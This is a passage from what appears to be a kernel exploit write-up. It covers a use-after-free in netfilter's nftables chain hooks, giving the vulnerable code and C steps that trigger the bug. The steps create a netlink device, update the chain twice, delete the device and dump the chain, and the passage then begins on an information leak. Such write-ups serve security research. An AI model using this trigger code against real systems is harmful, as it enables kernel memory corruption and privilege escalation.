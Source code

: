 In this function, the already freed dev device is accessed:

```c
case NFPROTO_INET:
    if (WARN_ON_ONCE(hooknum != NF_INET_INGRESS))
        return NULL;
    if (!dev || dev_net(dev) != net) {
        WARN_ON_ONCE(1);
        return NULL;
    }
    return &dev->nf_hooks_ingress;
```

To sum up, we have a Use-After-Free vulnerability in the kernel.


## Triggering Vulnerabilty

First, we create a virtual device by sending a creation request to the netlink socket:


```c
rt_newlink(nl_route, "y4g7", 1337);
```

Create a table and a chain, and update the chain twice in the same session so that two hooks point to the same device:


```c
batch = mnl_nlmsg_batch_start(buf, buf_size);
nftnl_batch_begin(mnl_nlmsg_batch_current(batch), seq++);
mnl_nlmsg_batch_next(batch);

create_basechain(batch, seq++, table1_name, chain1_name, 0, 0xff);
update_basechain(batch, seq++, table1_name, chain1_name, "y4g7");
update_basechain(batch, seq++, table1_name, chain1_name, "y4g7");

nftnl_batch_end(mnl_nlmsg_batch_current(batch), seq++);
mnl_nlmsg_batch_next(batch);
mnl_socket_sendto(nl, mnl_nlmsg_batch_head(batch), mnl_nlmsg_batch_size(batch));
```

Remove the device:

```c
rt_dellink(nl_route, 1337);
```

Now we can trigger the UAF by dumping this chain to get the name of the already removed device.


## Exploitation

### UAF Leak

When we dump the information of the chain that triggered the UAF earlier, the name of the old freed device can be obtained in the nft_dump_basechain_hook function, which allows us to leak the content of the first eight bytes of the structure as a string.
